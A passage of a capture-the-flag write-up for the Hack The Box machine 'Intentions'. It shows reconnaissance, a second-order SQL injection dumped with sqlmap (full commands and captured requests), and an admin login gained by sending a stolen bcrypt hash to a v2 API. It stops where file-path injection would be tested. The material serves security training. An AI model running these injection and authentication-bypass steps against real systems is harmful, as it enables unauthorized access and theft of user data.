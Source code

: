 ## HTB Intentions (Hard) - Writeup

Difficulty: Hard

I found an admin API in admin.js and noticed bcrypt hashes were sent from the client, allowing me to reuse a hash to log in as admin.  
I exploited a vulnerable ImageMagick setup by sending an .msl file with the vid: scheme, achieving RCE and triggering a reverse shell.  
For privilege escalation, I found a .git folder, recovered it, and identified credentials from a past commit to SSH in as greg.  
To escalate to root, I abused a custom scanner binary with the cap_dac_read_search capability to read restricted files like /etc/shadow by bruteforcing contents based on MD5 hashes.   

---

## Nmap 

#### The nmap scan revealed two open ports:

![obraz](https://github.com/user-attachments/assets/1d6dec87-491a-4280-99a6-79199336240e)


## Port 80 - Website  

Website welcomes us with login/register page:  

![obraz](https://github.com/user-attachments/assets/53d471e0-30f7-467d-8411-c3fb843ab875)

We'll register an account:  

![obraz](https://github.com/user-attachments/assets/14bf2538-e552-42f6-a51f-f39f77fe8583)

We can change feed on this website which might be injectable, we'll leave it for now.  
Now let's run feroxbuster:  

![obraz](https://github.com/user-attachments/assets/938cba60-4fae-4b2b-b262-ce304aa79568)

It has found /admin.js, let's check it:  

![obraz](https://github.com/user-attachments/assets/3bafb16a-aaaf-4ac7-b9bc-ae0ac7568256)

At the bottom of the file we have found a message:  

![obraz](https://github.com/user-attachments/assets/ccd4d9bb-4b22-4b8d-9097-97320c00f98b)

```
Hey team, I’ve deployed the v2 API to production and have started using it in the admin section. Let me know if you spot any bugs.
This will be a major security upgrade for our users, passwords no longer need to be transmitted to the server in clear text!
By hashing the password client side there is no risk to our users as BCrypt is basically uncrackable.
This should take care of the concerns raised by our users regarding our lack of HTTPS connection.
The v2 API also comes with some neat features we are testing that could allow users to apply cool effects to the images.
I’ve included some examples on the image editing page, but feel free to browse all of the available effects for the module and suggest some.
```

Api name can also be found here:  
+  /api/v2/admin/users




## SQL injection into feed

Let's come back to update feed option, it allows us to input comma separated categories like: nature,food, etc.  
It's worth to note that spaces get deleted when we update the favourite feed.  

In order to run sqlmap we need two requst.  
The first one is updating favourite categories:  
```
POST /api/v1/gallery/user/genres HTTP/1.1
Host: 10.10.11.220
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: application/json
X-XSRF-TOKEN: eyJpdiI6IkhiTGtTQXlFNHJ6SkEvTGRacEpKYUE9PSIsInZhbHVlIjoia2oyWjZ2Y1hic1ZTQzY3d2luYVN0UnhHU3k4azVBejJhamNaaXpCR2ljelY1NVhoYWxrUDJqc3pibWhCYkJTU0E2QXBWN2VaTE1ndE55QnlVV0RUa0hRMGJrMEVIeGFhbG41TmcrcVcvM2E0SnZUbWpzdnhqUVRFSzVnL3ZuS00iLCJtYWMiOiIxMzQ0MTVkOTQ1ZTIwYjA5NGY2MDdjNjA5NmRjZWVhMjQ1Yjc0ZDFkMWY3MTUyZmFkNGEwOTRiMzAwYzlkZmYzIiwidGFnIjoiIn0=
Content-Length: 17
Origin: http://10.10.11.220
Connection: keep-alive
Referer: http://10.10.11.220/gallery
Cookie: XSRF-TOKEN=eyJpdiI6IkhiTGtTQXlFNHJ6SkEvTGRacEpKYUE9PSIsInZhbHVlIjoia2oyWjZ2Y1hic1ZTQzY3d2luYVN0UnhHU3k4azVBejJhamNaaXpCR2ljelY1NVhoYWxrUDJqc3pibWhCYkJTU0E2QXBWN2VaTE1ndE55QnlVV0RUa0hRMGJrMEVIeGFhbG41TmcrcVcvM2E0SnZUbWpzdnhqUVRFSzVnL3ZuS00iLCJtYWMiOiIxMzQ0MTVkOTQ1ZTIwYjA5NGY2MDdjNjA5NmRjZWVhMjQ1Yjc0ZDFkMWY3MTUyZmFkNGEwOTRiMzAwYzlkZmYzIiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6ImlMbXVEb3lZek90MGFTaUY5bVFBb3c9PSIsInZhbHVlIjoicUxZRmlkS3FucHhjNTY3dVYvOVBiek1RZlZXSXZmVjJrQTRFUFR4OEtYU2VodGRPUG5hQzFDZ0lSaFgvb2FTMmZsYkRmVy96OC9ENFA0RmUzQjdFcVprdHhGOWFiaWZ3bGl6RVN2SVpTb1JGbWt4ZkJYL1drOGFobE1jMXN5cG4iLCJtYWMiOiJkMmRkM2I3MGYwNWQ0OGEwZDIxMDY1YjFjYjMzNWUxZTliZTM5ODdiODgyYTc4N2JlMTBmNTY2MzI3MGE0ZTk3IiwidGFnIjoiIn0%3D; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTAuMTEuMjIwL2FwaS92MS9hdXRoL2xvZ2luIiwiaWF0IjoxNzUwNTkwMDEwLCJleHAiOjE3NTA2MTE2MTAsIm5iZiI6MTc1MDU5MDAxMCwianRpIjoiUnpid0k1REFCMTM4czVnNyIsInN1YiI6IjI4IiwicHJ2IjoiMjNiZDVjODk0OWY2MDBhZGIzOWU3MDFjNDAwODcyZGI3YTU5NzZmNyJ9.9L-7_Ar3zgUMwPu8dz3lepl-WhBuMH9DoMGwW9BVAiM
Priority: u=0

{"genres":"test"}
```

We'll save it to a file.  
The second request is looking at the feed:  
```
GET /api/v1/gallery/user/feed HTTP/1.1
Host: 10.10.11.220
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
X-XSRF-TOKEN: eyJpdiI6Ilc1Mkx2QUxCTWh3emdXc1plckcwUkE9PSIsInZhbHVlIjoieUJtNXp3ZGRrNHR6bnpmaEdNUWJaVHNyRG93SDZIQXFsMC9FYWg3WVdSZSt6NmJxcmhSRThWYjRTaHNQTExTZy9TU2R0UGM3UlI2YW9Lb2FPY2ZGbXlkTUQ0WGhVOFNVNXMvS1ZyRCtNZGtXbEpUSHlEQ05tU09NQUFta29MY3YiLCJtYWMiOiJjZWQ0N2FiMDBiNTZhZDAxYzhhYjZjMzY5NDFiZmYxZDUyOTY0YmE5NzYwM2JhYWE5YTdjMDM5NmQ5M2QwMGJiIiwidGFnIjoiIn0=
Connection: keep-alive
Referer: http://10.10.11.220/gallery
Cookie: XSRF-TOKEN=eyJpdiI6Ilc1Mkx2QUxCTWh3emdXc1plckcwUkE9PSIsInZhbHVlIjoieUJtNXp3ZGRrNHR6bnpmaEdNUWJaVHNyRG93SDZIQXFsMC9FYWg3WVdSZSt6NmJxcmhSRThWYjRTaHNQTExTZy9TU2R0UGM3UlI2YW9Lb2FPY2ZGbXlkTUQ0WGhVOFNVNXMvS1ZyRCtNZGtXbEpUSHlEQ05tU09NQUFta29MY3YiLCJtYWMiOiJjZWQ0N2FiMDBiNTZhZDAxYzhhYjZjMzY5NDFiZmYxZDUyOTY0YmE5NzYwM2JhYWE5YTdjMDM5NmQ5M2QwMGJiIiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6InZ6dlFSNEtvUklPVjVnVFYvZGNBaWc9PSIsInZhbHVlIjoiUTNEWi9rYVh4cjhjTXpQN3c5NkdMT0JGcXdmdUNpU1FiUzQzTlRpYVNMMDhGSGNHUmlzT3hrYjU4SklHSFpFUEFpTjl2eVpoNzFiM0JTb241Q3BKNDA1N0xoczNRR0REcTRCSG0rRjV6elhvOWFWWUtFMlFFMFgyaXd3MkQxVzgiLCJtYWMiOiJjY2QwMzg0OTFmNDAzZjdmMjQ3ODM0NjAzNjA0OTU5ZGYyZTNjNjU5ZDhhNmQ4YWRkMjBlMTk4ODIxMTM5ZTJmIiwidGFnIjoiIn0%3D; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTAuMTEuMjIwL2FwaS92MS9hdXRoL2xvZ2luIiwiaWF0IjoxNzUwNTkwMDEwLCJleHAiOjE3NTA2MTE2MTAsIm5iZiI6MTc1MDU5MDAxMCwianRpIjoiUnpid0k1REFCMTM4czVnNyIsInN1YiI6IjI4IiwicHJ2IjoiMjNiZDVjODk0OWY2MDBhZGIzOWU3MDFjNDAwODcyZGI3YTU5NzZmNyJ9.9L-7_Ar3zgUMwPu8dz3lepl-WhBuMH9DoMGwW9BVAiM
Priority: u=0
```

Now we can use those two to run sqlmap:  
```
sqlmap -r req.txt --second-req=secondreq.txt --batch --tamper=space2comment
```
tamper flag was used becasuse spaces get deleted.  
This flag just replaces spaces with block comments  /**/  

![obraz](https://github.com/user-attachments/assets/d16d655d-d58d-4299-943f-48adc5a42610)

It appeared to be injectable:  

![obraz](https://github.com/user-attachments/assets/c3d00234-68f9-4ce0-afd9-e73b76a40fe4)

Now we want to retrieve all of the tables,databases, etc.  
```
sqlmap -r req.txt --second-req=secondreq.txt --batch --tamper=space2comment --tables
```

Then dump users:  
```
sqlmap -r req.txt --second-req=secondreq.txt --batch --tamper=space2comment -T users --dump
```

![obraz](https://github.com/user-attachments/assets/a5203153-5f52-494d-b374-eca52529d794)

As a result we got two uncrackable hashes.  




## Abusing API  

We have to take a different apporach.  
Everything we do on the site is going through api v1, but we know that there is an api v2.  
We want to play with login request, we need to catch it with burpsuite, I'll paste it here:  
```
POST /api/v1/auth/login HTTP/1.1
Host: 10.10.11.220
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: application/json
X-XSRF-TOKEN: eyJpdiI6IjhjMGpaWTB6dm9mdmMwUEU5YWJObnc9PSIsInZhbHVlIjoiYmxTZUZQeERKa0cvUGlRNXh3UUt2M28rcjhWUGl5SHBZaDNkS3ZYR0tDSURKNG1SYkNFWjlBMXN2TXZSRzdOYS9pOGRxblNzdkJhRll6VEhHMkpMY2RZd3ZQZC8xSW1rTzVsNDcxQnhQV3lVUGlOajloVXB3TFdIVkU3VnNDSFYiLCJtYWMiOiJkNGVmZjlhNTBiOWM1NTE1MWY2ZjcwYTgxMzkwNjc5ZDE1Y2QzY2Q1OGU3YmUwNzg1ZmFkMWM5MWU3NjMwNzBmIiwidGFnIjoiIn0=
Content-Length: 43
Origin: http://10.10.11.220
Connection: keep-alive
Referer: http://10.10.11.220/
Cookie: XSRF-TOKEN=eyJpdiI6IjhjMGpaWTB6dm9mdmMwUEU5YWJObnc9PSIsInZhbHVlIjoiYmxTZUZQeERKa0cvUGlRNXh3UUt2M28rcjhWUGl5SHBZaDNkS3ZYR0tDSURKNG1SYkNFWjlBMXN2TXZSRzdOYS9pOGRxblNzdkJhRll6VEhHMkpMY2RZd3ZQZC8xSW1rTzVsNDcxQnhQV3lVUGlOajloVXB3TFdIVkU3VnNDSFYiLCJtYWMiOiJkNGVmZjlhNTBiOWM1NTE1MWY2ZjcwYTgxMzkwNjc5ZDE1Y2QzY2Q1OGU3YmUwNzg1ZmFkMWM5MWU3NjMwNzBmIiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6ImZHM2Z5Z2Qxd2Q4YWtReDFnbDQ0UXc9PSIsInZhbHVlIjoiTE02RUxXR3RSMENzZDYzMWZIV3NXWm11R1FYY3F4WVNiMnlMY29ueDJ6Zy9RNWprbVE5SWZhbUtHUUJiUUJOWjlGTHlmS29KRjhzUk45L0pMdWNWSzJYMTBjd0dkOFM1ZzBzY3F0Z24yaHBSSHVpb0ZPNG1rbUsxQkZDR0NUZnciLCJtYWMiOiIwZGFjZWRhYzNiY2I5MDQwMGZhMjIzYzgwZWRkNzM0ZmFhNjU3MWJkNjIzOGU1ZmZkYzdhMDljMGZlZmExNDA3IiwidGFnIjoiIn0%3D; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTAuMTEuMjIwL2FwaS92MS9hdXRoL2xvZ2luIiwiaWF0IjoxNzUwNTkwMDEwLCJleHAiOjE3NTA2MTE2MTAsIm5iZiI6MTc1MDU5MDAxMCwianRpIjoiUnpid0k1REFCMTM4czVnNyIsInN1YiI6IjI4IiwicHJ2IjoiMjNiZDVjODk0OWY2MDBhZGIzOWU3MDFjNDAwODcyZGI3YTU5NzZmNyJ9.9L-7_Ar3zgUMwPu8dz3lepl-WhBuMH9DoMGwW9BVAiM
Priority: u=0

{
"email":"test@test.com",
"password":"test"
}
```

![obraz](https://github.com/user-attachments/assets/a5169dfa-35bb-469e-9381-b671b13f7b00)

If we change it to v2 instead of v1 we get a different response:  

![obraz](https://github.com/user-attachments/assets/d0eaef9f-256a-45b0-b649-52fe633341cb)

Replace the password field with a hash field, then add the hash we obtained earlier along with a valid email.   

![obraz](https://github.com/user-attachments/assets/d3df3faa-a979-4b9d-9206-39315f9f0af0)

Now it works, we get a success as response.  
Now just intercept the request again, change the password field to hash, update the email to Greg's, switch the form version from v1 to v2, and click 'Forward' in Burp.  




## Logged in as admin  

Now we can access /admin directory.  

![obraz](https://github.com/user-attachments/assets/4556cb90-c30c-4db7-a197-844a94995e14)

The news page gives us some additional information:  
```
The v2 API also comes with some neat features we are testing that could allow users to apply cool effects to the images.
I've included some examples on the image editing page, but feel free to browse all of the available effects for the module and suggest some: Image Feature Reference
```
The last item is a link, let's follow it.  
It's a link to image magick php.  

![obraz](https://github.com/user-attachments/assets/26721464-d19b-4f5d-902e-b41801c79bcf)

We can modify photos in images -> edit
Intercept this request with burp:  

![obraz](https://github.com/user-attachments/assets/bc83286a-d6e0-4899-9f53-0c71c2f9459d)

It contains two parameters - path and effect.  
Whemever we see something like path it's always a good idea to check for LFI. 











































































